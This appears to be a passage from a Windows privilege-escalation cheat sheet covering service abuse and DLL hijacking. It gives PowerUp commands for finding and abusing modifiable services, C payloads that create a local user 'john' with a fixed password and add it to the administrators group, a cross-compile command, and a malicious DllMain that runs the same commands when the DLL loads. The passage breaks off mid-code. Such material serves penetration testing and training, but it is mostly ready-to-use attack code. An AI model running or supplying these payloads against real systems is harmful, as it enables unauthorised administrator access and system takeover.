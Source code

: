To list modifiable services:

```powershell
Get-ModifiableServiceFile
```

Once we spot an interesting service, we can try to abuse it with:

```powershell
Install-ServiceBinary -Name '<SERVICENAME>'
```

If we have to manually load a custom exploit into the service we can directly write the C code and compile it for our needs:

```c
#include <stdlib.h>

int main ()
{
  int payload;
  
  payload = system ("net user john Password123! /add");
  payload = system ("net localgroup administrators john /add");
  
  return 0;
}
```

And then compile it with:

```shell
x86_64-w64-mingw32-gcc payload.c -o payload.exe
```

## Service DLL Hijacking
---

This is the order Windows search for DLLs:

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

The following C program can be used to exploit a missing DLL:

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int payload;
        payload = system ("net user john Password123! /add");
        payload = system ("net localgroup administrators john /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
```
